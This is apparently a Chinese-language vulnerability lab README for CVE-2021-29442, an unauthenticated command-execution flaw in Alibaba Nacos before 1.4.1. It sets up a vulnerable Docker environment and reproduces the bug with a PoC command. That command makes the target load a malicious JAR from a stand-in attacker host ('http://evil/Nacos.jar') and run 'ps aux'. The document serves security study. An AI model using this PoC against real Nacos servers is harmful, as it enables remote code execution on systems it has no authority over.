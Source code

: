 # Alibaba Nacos 未授权接口命令执行漏洞（CVE-2021-29442）

Nacos 是一个设计用于动态服务发现、配置和服务管理的易于使用的平台。

在Nacos 1.4.1之前的版本中，一些API端点（如`/nacos/v1/cs/ops/derby`）可以默认没有鉴权，可以被未经身份验证的用户公开访问。攻击者可以利用该漏洞执行任意Derby SQL语句和 Java 代码。

参考资料：

- <https://github.com/advisories/GHSA-xv5h-v7jh-p2qh>
- <https://github.com/alibaba/nacos/issues/4463>
- <https://github.com/ayoundzw/nacos-poc>
- <http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce>

## 漏洞环境

执行如下命令启动一个 Alibaba Nacos 1.4.0服务器：

```
docker compose up -d  
```

服务器启动后，访问`http://your-ip:8848/nacos/`可以看到 Nacos 的默认登录页面。

## 漏洞复现

首先，将恶意JAR包[evil.jar](evil.jar)上传到攻击者的HTTP服务器上，例如`http://evil/Nacos.jar`。

然后，执行[POC](poc.py)：

```
python poc.py -t http://your-ip:8848 -s http://evil/Nacos.jar -c "ps aux"  
```

`-t`参数指定目标地址，`-s`参数指定恶意JAR包的地址，`-c`参数指定要执行的命令。

可见，`ps aux`命令已被成功执行：

![](1.png)
